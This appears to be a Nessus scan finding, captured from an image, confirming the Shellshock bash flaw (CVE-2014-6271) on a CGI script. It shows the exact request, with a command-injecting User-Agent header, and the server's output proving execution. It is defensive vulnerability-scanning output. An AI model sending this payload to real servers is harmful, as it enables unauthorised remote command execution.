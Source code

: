 Nessus was able to exploit the issue using the following request:
<br>
GET /cgi-bin/search.cgi HTTP/1.1
<br>
Host: 192.168.176.155
<br>
Accept-Charset: iso-8859-1,utf-8;q=0.9,*;q=0.1
<br>
Accept-Language: en
<br>
Connection: Close
<br>
User-Agent: () { ignored; }; echo Content-Type: text/plain ; echo ; echo "bash_cve_2014_6271_rce Output : $((4+97))"
<br>
Pragma: no-cache
<br>
Accept: image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, image/png, */*
<br>



This produced the following truncated output (limited to 2 lines) :
<br>
------------------------------ snip ------------------------------

<br>
bash_cve_2014_6271_rce Output : 101
<br>
------------------------------ snip ------------------------------
